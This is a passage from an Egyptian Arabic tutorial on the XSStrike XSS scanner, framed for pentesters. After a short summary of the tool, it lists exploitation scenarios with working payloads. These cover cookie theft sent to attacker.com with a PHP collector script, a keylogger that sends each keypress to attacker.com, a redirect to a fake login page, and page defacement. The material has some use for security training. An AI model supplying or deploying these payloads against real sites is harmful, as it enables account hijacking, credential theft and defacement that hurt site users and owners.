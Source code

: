 **خلاصة بالعامية**:
XSStrike زي الدكتور اللي بيفحص الموقع من راسه لرجليه. بتفحص نقطة نقطة (زي الـparameters في GET أو POST)، أو تعمل كراولينج عشان تلاقي كل الفورمات. لو في WAF، بتحاول تتخطاه بالـfuzzer. لو عايز Blind XSS، بتحقن بايلودس في كل حتة ممكنة. ولو عايز تتحكم أكتر، استخدم ملف بايلودس جاهز.

---

### **4. سيناريوهات الاستغلال**
كـ pentester، لو XSStrike لقى ثغرة XSS، تقدر تستغلها بطرق كتير. هقدملك سيناريوهات عملية مع أمثلة:

1. **سرقة السيشن (Session Hijacking)**:
   - **الهدف**: سرقة الكوكيز بتاعة اليوزر عشان تدخل مكانه.
   - **البايلود**:
     ```html
     <script>document.location='attacker.com/steal.php?c='+document.cookie;</script>
     ```
   - **الإعداد**:
     اعمل ملف `steal.php` على السيرفر بتاعك:
     ```php
     <?php
     header('Location: google.com');
     $cookies = $_GET['c'];
     file_put_contents('cookies.txt', $cookies . "\n", FILE_APPEND);
     ?>
     ```
     حقن البايلود بـ XSStrike أو يدوي.
   - **التأثير**: تقدر تدخل على حساب اليوزر زي ما يكون هو.

2. **تسجيل الكيبورد (Keylogging)**:
   - **الهدف**: تسجيل كل ضغطة زرار من اليوزر (زي الباسورد).
   - **البايلود**:
     ```html
     <script>
     document.onkeypress = function(e) {
         fetch('attacker.com/log.php?key=' + e.key);
     };
     </script>
     ```
   - **الإعداد**: اعمل `log.php` عشان يسجل الكيبورد.
   - **التأثير**: سرقة بيانات حساسة زي الباسورد أو الكلام اللي بيكتبه اليوزر.

3. **فيشينج (Phishing)**:
   - **الهدف**: خداع اليوزر عشان يكتب بياناته في صفحة مزيفة.
   - **البايلود**:
     ```html
     <script>
     window.location = 'attacker.com/fake-login.html';
     </script>
     ```
   - **الإعداد**: اعمل صفحة لوجن مزيفة على السيرفر بتاعك.
   - **التأثير**: سرقة بيانات اليوزر زي اليوزرنيم والباسورد.

4. **تخريب الموقع (Defacement)**:
   - **الهدف**: تغيير شكل الموقع.
   - **البايلود**:
     ```html
     <script>
     document.body.innerHTML = '<h1>Hacked by Attacker!</h1>';
     </script>
     ```
   - **التأثير**: ضرر بسمعة الموقع أو نشر رسائل معينة.
